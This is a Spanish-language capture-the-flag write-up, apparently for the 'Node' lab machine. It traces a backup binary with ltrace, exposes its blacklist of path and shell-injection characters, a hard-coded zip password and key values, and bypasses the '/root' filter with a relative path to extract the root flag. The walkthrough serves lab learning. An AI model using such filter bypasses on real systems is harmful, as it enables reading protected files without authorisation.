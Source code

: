 Lo que nos sale como "root.txt" es una trollface en ascii.

Cuando hicimos la prueba con el user.txt no salia este mensaje "[+] Finished! Encoded backup is below:"
Si hacemos un ltrace:
```console
tom@node:/$ ltrace /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea703... /root/rootxt
strstr("/root/root.txt", "..")                                            = nil
strstr("/root/root.txt", "/root")
# EL codigo de printear la trollface
```
Es decir si detecta "/root" o ".." te sale la trollface. Habria otras maneras de indicar ese directorio?  
- Probamos con regex como /roo? o /roo* pero lo mismo.  
- SI ponemos ruta relativa es decir "root" ejecutando el programa desde la raiz nos sale un base64 mucho mas largo ya que no está el "/"

```console
└─$ echo "UEsDBAoAAAAAAMRlEVUA..." | base64 -d > root.zip
└─$ 7z x root.zip # magicword
└─$ cd root
└─$ cat root.txt
01aec8e9d5c3d08a8b97ec84a362cbcc
```

Si no hubiera existido el app.js de ayuda podriamos haber dado con el funcionamiento dek programa igual con ltrace
```console
tom@node:/$ ltrace /usr/local/bin/backup a
exit(1 <no return ...>
tom@node:/$ ltrace /usr/local/bin/backup a b
exit(1 <no return ...>
tom@node:/$ ltrace /usr/local/bin/backup a b c
strcmp("a", "-q")
strcat("/etc/myplace/key", "s")                                           = "/etc/myplace/keys"
fopen("/etc/myplace/keys", "r")                                           = 0x8b8d008

tom@node:/$ cat /etc/myplace/keys
a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110

tom@node:/$ ltrace /usr/local/bin/backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 c
# Estos son los patrones que activan el trollface
strstr("c", "..")
strstr("c", "/root")
strchr("c", ';')
strchr("c", '&')
strchr("c", '`')
strchr("c", '$')
strchr("c", '|')
strstr("c", "//")
strcmp("c", "/")
strstr("c", "/etc")
system("/usr/bin/zip -r -P magicword /tm"... <no return ...>

tom@node:/$ ltrace /usr/local/bin/backup -q a01a6aa5aaf1d7729f35c8278daae30f... /home/tom/user.txt
sprintf("/usr/bin/zip -r -P magicword /tm"..., "/usr/bin/zip -r -P magicword %s "..., "/tmp/.backup_821390232", "/home/tom/user.txt") = 82
system("/usr/bin/base64 -w0 /tmp/.backup"...UEsDBAoACQ.... --- SIGCHLD (Child exited) ---
remove("/tmp/.backup_821390232")
# Hace un zip del directorio que le indiquemos y lo mete en un archivo temporal, que luego printea en base64 y 
# elimina
```